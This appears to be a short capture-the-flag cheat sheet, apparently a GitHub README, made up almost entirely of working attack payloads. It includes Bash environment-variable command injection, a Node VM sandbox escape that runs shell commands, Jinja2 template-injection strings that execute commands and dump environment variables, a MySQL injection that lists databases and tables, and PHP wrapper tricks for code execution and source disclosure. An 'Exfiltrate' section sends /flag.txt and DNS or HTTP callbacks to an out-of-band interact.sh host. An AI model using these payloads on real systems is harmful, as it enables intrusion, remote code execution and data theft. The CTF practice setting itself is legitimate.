 # magic_strings
Handy bits for CTFs and life

### Bash 

#### ENV Vars
    BASH_ENV='$(id 1>&2)' bash -c 'echo hello'

    env $'BASH_FUNC_myfunc%%=() { id; }' bash -c 'myfunc'

#### Encoding

    $'\151\144'

### NodeJS

#### Node VM

Escape Node VM Sandbox

    this.constructor.constructor("return this.process")().mainModule.require("child_process").execSync("id").toString()

### Python

#### Jinja2 / Template Injection

    {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
    {{config.__class__.__init__.__globals__['os'].environ}}

### MySQL 

MySQL >=5.6

    concat(0x404f73616e64614d616c6974680a, @@innodb_version ,0x0a,user(),0x0a, schema(), (select (@x) from (select (@x:=0x00), (@number:=0),(select (0) from (mysql.innodb_table_stats) where (@x:=concat(@x,0x0a,lpad(@number:=@number+1,2,0),0x2e20,database_name, 0x202d3e20 ,table_name,0x202d3e20 ,length(table_name)))))x))

### PHP

    data://data:text/plain,<?php system("id")?>
    
    php://filter/convert.base64-encode/resource=index

### Exfiltrate

    curl -T /flag.txt xxxx.interct.sh
    ping here.xxx.interact.sh
    nc nchere.xxx.interact.sh 80
    dig dighere.xxx.interact.sh
    git clone githere.xxx.interact.sh
    

## Resources

- [Payloads All The Things]( https://github.com/swisskyrepo/PayloadsAllTheThings/ )
- [Reverse Shells Generator]( https://www.revshells.com/ )
- [De Obfuscate JS]( https://lelinhtinh.github.io/de4js/ )
- [XSS Cheat sheet]( https://portswigger.net/web-security/cross-site-scripting/cheat-sheet )
- [HackTricks]( https://book.hacktricks.xyz )
- [Compile Online]( https://rextester.com/ )
